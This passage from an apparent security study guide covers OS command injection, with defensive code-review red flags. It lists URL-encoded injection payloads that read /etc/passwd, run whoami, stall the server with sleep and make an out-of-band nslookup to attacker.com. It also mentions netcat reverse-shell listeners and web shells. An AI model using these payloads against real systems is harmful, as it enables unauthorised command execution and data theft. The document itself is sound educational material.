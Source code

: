 - **Payload examples (URL-encoded for web context)**
    
    - **Linux (using `;`):** `127.0.0.1;%20ls%20-la%20/`
        
    - **Linux (using `&`):** `127.0.0.1%20%26%26%20cat%20/etc/passwd`
        
    - **Linux (using backticks):** `` `ls -la` `` (often needs to be within another command, e.g., `echo%20%60ls%20-la%60`)
        
    - **Linux (using `$`()):** `$(id)` (often needs to be within another command, e.g., `echo%20$(id)`)
        
    - **Windows (using `&`):** `127.0.0.1%20%26%20dir%20C:\`
        
    - **Windows (using `|`):** `127.0.0.1%20%7C%20whoami`
        
    - **Blind (Time-based - Linux):** `127.0.0.1%3B%20sleep%205`
        
    - **Blind (Out-of-band - Linux):** `127.0.0.1%3B%20nslookup%20attacker.com`
        
- **Tools used**
    
    - **Burp Suite (or OWASP ZAP):** For intercepting requests, modifying parameters, and automating payload injection (Intruder).
        
    - **`curl` / Postman / Insomnia:** For crafting and sending custom HTTP requests with payloads.
        
    - **Netcat (`nc`):** For setting up listeners for reverse shells.
        
    - **DNS Listener:** For blind out-of-band detection.
        
    - **Web Shells:** If file write access is obtained, uploading a web shell for easier command execution.
        
- **Real-world examples (CVE, bugs in libraries or apps)**
    
    - **Shellshock (CVE-2014-6271):** A critical RCE vulnerability in the Bash shell that allowed attackers to inject commands via environment variables, affecting numerous web servers and other services.
        
    - **ImageMagick (ImageTragick - CVE-2016-3714):** While primarily an image processing vulnerability, some exploits involved command injection through specially crafted image file names or content that were then processed by external system calls.
        
    - **Many IoT devices and routers:** Often have web interfaces with vulnerable command injection points in diagnostic tools (e.g., ping, traceroute functionality).
        

## 🔎 Code Review Tips

- **What patterns or red flags to look for**
    
    - **Direct Concatenation into Shell Commands:** Any instance where user-supplied input is directly concatenated into a string that is then passed to a function that executes shell commands.
        
    - **Use of Shell-Executing Functions:** Calls to `system()`, `exec()`, `popen()`, `Runtime.getRuntime().exec()`, `subprocess.run(shell=True)`, `os.system()`, `os.popen()`, `backticks (``)` in Ruby/PHP, `eval()` in some contexts.
        
    - **Lack of Escaping:** No explicit escaping of shell metacharacters (`&`, `|`, `;`, etc.) from user input.
        